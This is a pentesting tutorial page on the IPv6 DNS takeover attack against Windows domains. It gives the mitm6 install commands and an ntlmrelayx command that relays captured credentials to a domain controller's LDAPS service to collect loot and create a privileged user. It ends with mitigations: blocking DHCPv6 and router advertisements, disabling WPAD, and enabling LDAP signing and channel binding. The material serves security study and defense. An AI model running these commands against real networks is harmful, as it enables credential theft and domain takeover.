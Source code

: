# IPv6 DNS Takeover

This attack takes advantage of machines utilizing IPv4 while still having IPv6 active in their network adapter properties. When a machine is configured in this way, one question comes to mind. Who is the DNS for IPv6? Most of the time, nobody.

With this misconfiguration, an attacker can listen for any incoming IPv6 traffic, declaring themselves as the DNS for IPv6. Through this process, an attacker can gain authentication to the Domain Controller with LDAP (Lightweight Directory Access Protocol) or SMB (Server Message Block).





## IPv6 DNS Takeover attack

For the installation of the tool follow this steps:

{% code title="mitm6 installation" overflow="wrap" %}
```bash
cd /opt
sudo git clone https://github.com/dirkjanm/mitm6
sudo pipx install .
```
{% endcode %}

{% code title="Kali installation cmd" %}
```bash
sudo apt install mitm6
```
{% endcode %}

### Setup and run Ntlmrelayx

Before starting `mitm6` , we have to configure and run the relay which will attempt to access the DC's LDAP service with the capted credentials.

{% code overflow="wrap" %}
```bash
impacket-ntlmrelayx -6 -t ldaps://DC_IP -wh FAKE.DOMAIN.local -l lootme

# -6: Listen on both IPv6 and IPv4
# -t: Target to relay the credentials to, can be an IP, hostname or URL like domain\username@host:port
# -l: Loot directory in which gathered loot such as SAM dumps will be storedbash (in our local machine)
# -wh: Enable serving a WPAD file for Proxy Authentication attack, setting the proxy host to the one supplied.
```
{% endcode %}

### Run mitm6 tool

Once we have started the relay, we can start the mitm6 tool which simulate a Fake IPv6 DNS.

```bash
sudo mitm6 -d DOMAIN
```



### Check the results

If the attack will successfull we would have our loot directory with all data.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### User creations

When a victim user login into his machine, the tool `mitm6` will try to create a user with more privilege.

For the information check the output of the tool when a user loggins.

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Mitigation

### Limits the IPv6 by rule

Disable IPv6 entirely may have unwanted side effects. Setting the following predefined rules to Block instead of Allow prevents the attack from working:

* (Inbound) Core Networking - **Dynamic Host Configuration Protocol for IPv6** (**DHCPV6-In**)
* (Inbound) Core Networking - **Router Advertisement** (**ICMPv6-In**)
* (Outbound) Core Networking - **Dynamic Host Configuration Protocol for IPv6** (**DHCPV6 - Out**)

### Disable WPAD

If WPAD is not in use internally, **disable it** via Group Policy and by disabling the **WinHttpAutoProxySvc service**

### Make LDAP secure by attack

Relaying to LDAP and LDAPS can only be mitigated by **enabling** both **LDAP signing** and LDAP **channel binding**.





